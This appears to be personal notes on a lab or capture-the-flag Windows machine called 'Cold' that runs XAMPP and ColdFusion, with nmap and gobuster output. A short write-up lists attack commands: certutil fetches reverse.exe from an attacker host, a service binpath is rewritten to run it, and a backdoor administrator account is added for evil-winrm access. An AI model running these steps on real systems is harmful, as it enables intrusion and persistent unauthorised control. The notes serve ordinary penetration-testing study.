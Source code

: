 ```yaml
---
title: Cold
created: '2020-07-03T08:22:32.774Z'
modified: '2020-07-03T10:20:02.094Z'
---
```


# Cold
- IP: `172.31.1.15`
- OS: `Windows`
## General
### Versions
- XAMMP 7.2.30
## Enumeration
### Writeup
certutil -urlcache -split -f http://10.10.0.8/reverse.exe C:\pink\reverse.exe

use exploit/multi/handler

sc config cold binpath="C:\pink\reverse.exe"

net user pink P1nkDracon!an /add
net localgroup administrators pink /add
evil-winrm -i 173.31.1.15 -u pink -p 'P1nkDracon!an'
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.15`
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.30)
|_http-favicon: Unknown favicon MD5: 56F7C04657931F2D0B79371B2D6E9820
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.2.30
| http-title: Welcome to XAMPP
|_Requested resource was http://172.31.1.15/dashboard/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.30)
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.2.30
| http-title: Welcome to XAMPP
|_Requested resource was https://172.31.1.15/dashboard/
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5500/tcp  open  http         Jetty 9.3.6.v20151106
| http-methods: 
|_  Supported Methods: GET
|_http-server-header: Jetty(9.3.6.v20151106)
|_http-title: Error 404 
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6095/tcp  open  unknown
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|_    JNB70*
6096/tcp  open  unknown
7993/tcp  open  unknown
8018/tcp  open  unknown
8500/tcp  open  http         Samsung AllShare httpd
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: 404
8581/tcp  open  unknown
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 403 Forbidden
|     Content-Length: true
|_    Forbidden
20007/tcp open  unknown
20008/tcp open  unknown
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49163/tcp open  msrpc        Microsoft Windows RPC
49192/tcp open  msrpc        Microsoft Windows RPC
49193/tcp open  msrpc        Microsoft Windows RPC
```
</details>

<details>
<summary>Gobuster</summary>

- `gobuster dir --wordlist /usr/share/wordlists/dirb/vulns/coldfusion.txt --url http://172.31.1.15:8500/`
```
/CFIDE/administrator (Status: 302)
/CFIDE (Status: 302)
/CFIDE/administrator/aboutcf.cfm (Status: 200)
/CFIDE/administrator/checkfile.cfm (Status: 200)
/CFIDE/administrator/header.cfm (Status: 200)
/CFIDE/administrator/index.cfm (Status: 200)
/CFIDE/administrator/homepage.cfm (Status: 200)
/CFIDE/administrator/enter.cfm (Status: 200)
/CFIDE/administrator/logout.cfm (Status: 200)
/CFIDE/administrator/linkdirect.cfm (Status: 200)
/CFIDE/administrator/login.cfm (Status: 200)
/CFIDE/administrator/navserver.cfm (Status: 200)

```
</details>

<details>
<summary></summary>

- ``
```

```
</details>

